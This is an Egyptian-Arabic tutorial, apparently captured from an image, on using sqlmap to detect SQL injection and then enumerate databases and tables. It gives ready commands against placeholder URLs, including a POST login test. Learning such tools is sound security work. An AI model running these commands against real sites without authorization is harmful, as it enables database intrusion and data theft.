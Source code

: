 ### **1. اكتشاف الثغرة باستخدام sqlmap**
#### **إيه هو؟**
ال sqlmap بيبدأ باختبار الهدف (زي URL أو طلب POST) عشان يكتشف إذا كان فيه ثغرة SQL Injection ونوعها (Union، Blind، إلخ).

#### **ازاي بيشتغل؟**
بتديله الـ URL أو الطلب، وهو بيجرب أوامر SQL تلقائيًا ويحلل الردود.

#### **مثال عملي:**
- **اختبار URL بسيط:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --batch
  ```
  الـ `--batch` بيخليه يجاوب على الأسئلة الافتراضية تلقائيًا. لو لقى ثغرة، هيقولك "parameter 'id' is vulnerable".

- **اختبار معين لنوع الثغرة:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --technique=U
  ```
  الـ `--technique=U` بيختبر Union-Based بس.

- **اختبار POST Request:**
  لو الثغرة في فورم:
  ```
  sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --batch
  ```

#### **خلاصة طريفة:**
تخيل إنك بتبعت واحد ذكي يخبط على كل باب في البيت ويقول "في حد هنا؟"، لو الباب اتفتح يقولك "أيوة يا باشا، في ثغرة في الأوضة دي!"

---

### **2. استخراج معلومات الداتابيز**
#### **إيه هو؟**
بعد ما تكتشف الثغرة، sqlmap بيساعدك تسحب معلومات زي أسماء الداتابيز، الجداول، والأعمدة.

#### **ازاي بيشتغل؟**
بتستخدم أوامر زي `--dbs` و `--tables` عشان تجمع المعلومات خطوة بخطوة.

#### **مثال عملي:**
- **سحب أسماء الداتابيز:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --dbs
  ```
  هيرجعلك حاجة زي: `mysql, testdb, shop`.

- **سحب الجداول من داتابيز معينة:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" -D testdb --tables
  ```
  ممكن يرجع: `users, products, orders`.
